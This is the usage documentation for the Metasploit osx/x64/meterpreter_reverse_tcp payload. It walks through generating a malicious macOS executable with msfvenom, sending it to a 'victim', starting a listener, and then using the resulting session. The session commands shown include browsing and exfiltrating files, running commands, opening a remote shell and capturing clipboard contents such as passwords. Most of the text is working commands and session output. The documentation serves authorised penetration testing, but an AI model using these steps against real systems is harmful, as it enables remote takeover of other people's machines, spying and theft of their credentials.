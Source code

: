 osx/x64/meterpreter_reverse_tcp is similar to the linux meterpreter, but built for OSX.
It allows you to remotely take over the compromised system, having control of the file system,
webcam, microphone, screenshot and collect sensitive information such as credentials
using post modules, etc.

## Vulnerable Application

osx/x64/meterpreter_reverse_tcp 64-bit MacOSX platforms from 10.8 onwards.

## Deploying osx/x64/meterpreter_reverse_tcp

To use osx/x64/meterpreter_reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=[IP] LPORT=4444 -f macho -o /tmp/payload.bin
```

Before sending the executable to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD osx/x64/meterpreter_reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious executable, you should
receive a session:

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2016-07-06 22:40:35 -0500

meterpreter > 
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/User/Desktop
```

**cd**

The cd command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The cat command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```

**upload**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.bin /Users/User/Desktop
[*] uploading  : /tmp/data.bin -> /Users/User/Desktop
[*] uploaded   : /tmp/data.bin -> /Users/User/Desktop/data.bin
meterpreter > 
```

**download**

The ```download``` command allows you to download a file from the remote target to your machine. For example:

```
meterpreter > download /Users/User/Desktop/data.bin /tmp
[*] downloading: /Users/User/Desktop/data.bin -> /tmp/data.bin
[*] download   : /Users/User/Desktop/data.bin -> /tmp/data.bin
```

**ifconfig/ipconfig**

```ifconfig``` and ```ipconfig``` are actually the same thing. They allow you to see the network
interfaces on the remote machine.

**getuid**

The getuid command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: uid=502, gid=20, euid=502, egid=20
```

**execute**

The ```execute``` command allows you to execute a command or file on the remote machine.
For example:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 5292 created.
```

**ps**

The ```ps``` command lists the running processes on the remote machine.

**shell**

The shell command allows you to interact with the remote machine's terminal (or shell). For
example:

```
meterpreter > shell
Process 29335 created.
Channel 2 created.
cat /tmp/hello.txt
hello
exit
meterpreter >
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel or
[CTRL]+[Z] then y (or the exit command) to terminate the channel.

**sysinfo**

The sysinfo command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

For example:

```
meterpreter > sysinfo
Computer     : My-Computer.local
OS           : Mac OS X Sierra (MacOSX 10.12.6)
Architecture : x86
Meterpreter  : x64/osx
meterpreter > 
```

**Extensions**

OSX Meterpreter supports reading and writing to the clipboard with the extapi extension, 
you can load it with the ```load``` command:

```
meterpreter > load extapi
Loading extension extapi...Success.
meterpreter > clipboard_get_data
Text captured at
=================
pa$$w0rd
=================
```

**Other commands**

For a complete list of OSX Meterpreter commands, do the following at the prompt:

```
meterpreter > help
```


